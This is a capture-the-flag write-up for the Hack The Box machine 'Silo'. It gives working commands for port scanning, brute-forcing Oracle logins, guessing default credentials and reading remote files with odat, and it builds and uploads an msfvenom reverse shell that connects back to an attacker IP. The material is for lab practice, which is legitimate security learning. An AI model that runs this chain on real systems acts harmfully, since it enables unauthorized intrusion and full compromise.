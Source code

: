 ```yaml
---

title: "Silo"
date: 2023-08-10T11:30:03+00:00
tags: ["web","windows","oracle","odat"]
categories: ["hackthebox"]
author: "0x0Pwn"
image: "/HTB/Silo.png"
comments: false
description: "This is a friendly windows machine that is vulnerable because the oracle ports are deprecated."

---
```


## Room Information

- Room name: Silo
- Difficulty level: Medium
- Room link: https://app.hackthebox.com/machines/silo

![Untitled](/HTB/Silo.png)

## Tools Used

- Nmap
- searchsploit
- msfvenom
- odat
- crackmapexec
- smbclient

## Port Scanning

Other room, other port scan.

```bash
sudo nmap -p- --min-rate 5000 -sS 10.10.10.82 -oG allports
extractPorts allports
sudo nmap -p 80,135,139,445,1521,5985,47001,49152,49153,49154,49155,49159,49160,49161,49162 --min-rate 5000 -sCV -sS 10.10.10.82 -oN targeted
```

![Untitled](/HTB/escaneo-silo.png)

Seeing this we can know that there are a lot of open ports: 80(**http**), 135(msrpc), 139(**smb**), 445(**smb**), 1521(**oracle**), 5985(**http**), 47001(**http**), 49152(msrpc) ,49153,49154,49155,49159(**oracle**)…

In this case I focused on port 80, **smb** and **oracle** services.

## Enumeration

As I always do with all machines I set out to do the directory scan with **gobuster** and **wfuzz,** but I didn’t find anything.

![Untitled](/HTB/web-silo.png)

After a while of trying things on the web, I decided to leave it aside and continue with the search for information about **smb** and **oracle** ports.

## Exploiting

At first I tried to **brute force** with **hydra** to find out the **oracle** passwords, but it didn’t work. I leave here the command:

```bash
hydra -P rockyou.txt -t 32 -s 1521 host.victim oracle-listener
```

```bash
┌──(kali㉿kali)-[~/HTB/silo]
└─$ hydra -P ~/Downloads/users-oracle.txt -t 32 -s 1521 10.10.10.82 oracle-listener 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-04 05:03:42
[DATA] max 32 tasks per 1 server, overall 32 tasks, 1369 login tries (l:1/p:1369), ~43 tries per task
[DATA] attacking oracle-listener://10.10.10.82:1521/
[STATUS] 571.00 tries/min, 571 tries in 00:01h, 798 to do in 00:02h, 32 active
[STATUS] 559.00 tries/min, 1118 tries in 00:02h, 251 to do in 00:01h, 32 active
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-09-04 05:06:13
```

After that I decided to use the **odat** program to try to vulnerate the **oracle** services. I started **cracking** the **SID** of oracle using this command:

```bash
python3 odat.py sidguesser -s 10.10.10.82
```

![Untitled](/HTB/odat1-silo.png)

pd:  I discovered that it was XE.

Then I start **guessing** the **user** and **password** using this command:

```bash
python3 odat.py passwordguesser -d XE -s 10.10.10.82
```

![Untitled](/HTB/odat2-silo.png)

I also test if the user and pass works for **smb** service too, but didn’t works…

```bash
crackmapexec smb 10.10.10.82 -U 'scott' -P 'tiger'
```

```bash
┌──(kali㉿kali)-[~/HTB/silo]
└─$ crackmapexec smb 10.10.10.82
SMB         10.10.10.82     445    SILO             [*] Windows Server 2012 R2 Standard 9600 x64 (name:SILO) (domain:SILO) (signing:False) (SMBv1:True)
```

![Untitled](/HTB/crack-silo.png)

pd: I found that user→**scott**, and pass→**tiger**

Then I start testing if I can read files remotely, and I saw that it was posible…

```bash
python3 odat.py utlfile -s 10.10.10.82 -d XE -U 'scott' -P 'tiger' --getFile /windows/system32/drivers/etc/ hosts hosts --sysdba
```

![Untitled](/HTB/odat3-silo.png)

So I uploaded a reverse_shell that I created with **msfvenom** by applying this commands:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.10 LPORT=443 -f exe > reverse.exe
python3 odat.py utlfile -s 10.10.10.82 -d XE -U 'scott' -P 'tiger' --putFile /Users/Public/Documents reverse.exe ~/HTB/Silo/reverse.exe --sysdba
```

![Untitled](/HTB/msf-silo.png)

![Untitled](/HTB/odat4-silo.png)

Then I putted my machine listening on port 443, and execute the reverse.exe with this command:

```bash
python3 odat.py externaltable -s 10.10.10.82 -d XE -U 'scott' -P 'tiger' --exec /Users/Public/Documents/ reverse.exe --sysdba
```

![Untitled](/HTB/pwn-silo.png)

So at this point I was in 😇

## Treatment of tty

```bash
 script /dev/null -c bash
 ctrl + z
 stty raw -echo; fg
 restet xterm
 export TERM=xterm

```

## Escalating Privileges

A didn’t need to escalate privileges because I entered as admin.

![Untitled](/HTB/root-silo.png)

## Lessons Learned

- What insights did you gain from the room?
    
    I learn more about the **oracle**, and **smb**.
    
- Where there any novel tools or techniques employed?
    
    Using **odat** and **crackmapexec**, and hydra for oracle…
